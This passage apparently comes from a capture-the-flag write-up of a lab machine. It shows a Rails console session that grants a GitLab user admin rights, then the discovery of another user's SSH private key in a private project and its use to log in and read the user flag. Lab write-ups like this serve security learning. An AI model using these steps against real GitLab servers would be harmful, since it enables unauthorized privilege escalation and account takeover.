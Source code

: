 #### Via Elevate Self

Alternatively, I could also give myself admin privs for GitLab:

```

irb(main):006:0> me = User.find_by(username: "0xdf")
me = User.find_by(username: "0xdf")
=> #<User id:5 @0xdf>
irb(main):007:0> me.admin = true
me.admin = true
=> true
irb(main):008:0> me.save
me.save
=> true

```

Now logged in as 0xdf, I can access the private project under Projects –> Explore.

### SSH

#### Find SSH Key

The project has a handful of files in it, most of which are not that interesting. There’s a `todo.txt`:

```

# DONE: Secure docker for regular users
### DONE: Automate docker security on startup
# TODO: Look into "docker compose"
# TODO: Permanently ban DeeDee from lab

```

I’ll note those for later. But more importantly there’s a `.ssh` folder in `dexter` and it has a private key in it:

![image-20210307061924490](https://0xdfimages.gitlab.io/img/image-20210307061924490.png)

#### Connect

Using the private key, I can get a shell as dexter:

```

oxdf@parrot$ ssh -i ~/keys/laboratory_dexter dexter@10.10.10.216
dexter@laboratory:~$

```

And get `user.txt`:

```

dexter@laboratory:~$ cat user.txt
47516221************************

```
